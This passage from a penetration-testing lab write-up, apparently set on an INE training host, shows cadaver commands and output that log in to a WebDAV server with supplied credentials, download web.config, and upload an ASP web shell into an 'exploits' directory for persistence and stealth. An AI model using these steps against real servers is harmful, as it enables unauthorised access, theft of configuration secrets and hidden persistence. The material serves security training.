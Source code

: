 
### **Example 4: Advanced File Operations and Intelligence Gathering**

**📝 Lab Context:** Performing comprehensive file operations including downloading configuration files and creating organized directory structures for ongoing operations.

#### **Downloading Configuration Files:**
```bash
# Reconnect to WebDAV server for additional operations
cadaver http://demo.ine.local/webdav
Username: bob
Password: password_123321

# Download potentially sensitive configuration files
dav:/webdav/> get web.config
Downloading `/webdav/web.config' to `web.config':
Progress: [=============================>] 100.0% of 168 bytes succeeded.

dav:/webdav/> get AttackDefense.txt
Downloading `/webdav/AttackDefense.txt' to `AttackDefense.txt':
Progress: [=============================>] 100.0% of 13 bytes succeeded.

# Verify local files downloaded successfully
dav:/webdav/> !ls -la *.config *.txt
-rw-r--r-- 1 user user  13 Jul 10 09:45 AttackDefense.txt
-rw-r--r-- 1 user user 168 Jul 10 09:45 web.config
```

#### **Creating Organized Upload Directory:**
```bash
# Create custom directory for organized uploads
dav:/webdav/> mkcol exploits
Creating `exploits': succeeded.

# Navigate to new directory
dav:/webdav/> cd exploits
dav:/webdav/exploits/>

# Upload additional payloads for persistence
dav:/webdav/exploits/> put /usr/share/webshells/asp/cmd.asp
Uploading `/usr/share/webshells/asp/cmd.asp` to `/webdav/exploits/cmd.asp':
Progress: [=============================>] 100.0% of 1400 bytes succeeded.

# Verify organized structure
dav:/webdav/exploits/> ls
Listing collection `/webdav/exploits/`: succeeded.
        cmd.asp                            1400 Jul 10 09:47
```

**📊 Operational Benefits:**
- **Intelligence Gathering:** Configuration files may contain sensitive information
- **Organization:** Separate directory keeps exploitation tools organized
- **Persistence:** Multiple web shells provide backup access methods
- **Stealth:** Organized approach reduces detection likelihood
